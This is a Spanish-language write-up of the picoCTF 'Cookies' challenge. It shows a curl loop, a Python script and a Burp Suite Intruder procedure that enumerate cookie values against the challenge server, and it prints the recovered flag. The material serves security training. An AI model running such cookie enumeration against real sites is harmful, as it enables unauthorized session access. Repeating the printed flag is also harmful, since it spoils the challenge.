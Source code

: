 ## Objetivo
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:17781/](http://mercury.picoctf.net:17781/)
## Solución 1
```bash
┌──(armando㉿kali)-[~]
└─$ for i in {0..30}; do curl -s http://mercury.picoctf.net:17781/check -H "Cookie: name=$i"; done | grep "picoCTF{"
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}</code></p>
^C

┌──(armando㉿kali)-[~]
└─$ 
```

## Solución 2
- Creamos un código de Python para que vaya cambiando el valor de la cookie y así para tratar de encontrar la bandera y lo ejecutamos.
```bash
┌──(armando㉿kali)-[~]
└─$ nano cookie.py 
```
```python
import requests
import re

url = "http://mercury.picoctf.net:17781/check"

for i in range(20):
        print(i)
        cookies = {'name':f'{i}'}
        r = requests.get(url, cookies=cookies)
        if 'picoCTF{' in r.text:
                flag = re.findall('picoCTF\\{.*?\\}',r.text)
                print(flag)
```
```bash
┌──(armando㉿kali)-[~]
└─$ python cookie.py
0
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
['picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}']
19
20
┌──(armando㉿kali)-[~]
└─$
```

## Solución 3
- Entramos a la herramienta `Burpsuite`, prendemos nuestra proxy, enviamos un valor de prueba, nos dirigimos a la sección de Proxy enviamos el request a la parte de Intruder, seleccionamos el valor que tiene la sentencia `Cookie: name=0` y le damos clic a la opción de `Add`, despues nos vamos a la sección de Payloads seleccionamos el tipo por Numérico y marcamos el origen y el final para el rango, despues damos clic a `Start Attack` y ahí buscamos la bandera en la sección de respuesta.
```bash
picoCTF{3v3ry1_l0v3s_c00k135_bb3b3535}
```

## Notas Adicionales
## Referencias